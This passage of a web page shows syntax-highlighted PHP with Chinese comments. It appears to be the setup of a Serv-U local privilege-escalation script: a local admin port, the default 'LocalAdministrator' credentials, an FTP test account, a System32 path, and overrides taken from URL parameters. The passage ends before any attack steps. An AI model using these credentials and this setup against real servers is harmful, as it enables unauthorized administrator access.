       <span>&nbsp;&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="comment">//变量初始化</span><span>&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$addr</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;127.0.0.1&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$ftpport</span><span>&nbsp;=&nbsp;21;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$adminport</span><span>&nbsp;=&nbsp;43958;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$adminuser</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;LocalAdministrator&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$adminpass</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;#l@$ak#.lk;0@P&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$user</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;110&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span><span class="vars">$password</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;110&#8217;</span><span>;&nbsp;&nbsp;</span></span>
    </li>
    <li class="alt">
      <span><span class="vars">$homedir</span><span>&nbsp;=&nbsp;</span><span class="string">&#8216;C:\\';</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">$dir&nbsp;=&nbsp;&#8216;</span><span>C:\\WINNT\\System32\\</span><span class="string">&#8216;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span>&nbsp;</span>
    </li>
    <li class="">
      <span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">//有改变则赋值</span>&nbsp;</span>
    </li>
    <li class="">
      <span><span class="string">if&nbsp;($_GET){</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$addr&nbsp;=&nbsp;$_GET['</span><span>addr</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
      <span>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$ftpport&nbsp;=&nbsp;$_GET['<span>ftpport</span><span class="string">']&nbsp;;</span>&nbsp;</span>
    </li>
    <li class="alt">
      <span><span class="string">&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$adminport&nbsp;=&nbsp;$_GET['</span><span>adminport</span><span class="string">']&nbsp;;&nbsp;&nbsp;</span></span>
    </li>
    <li class="">
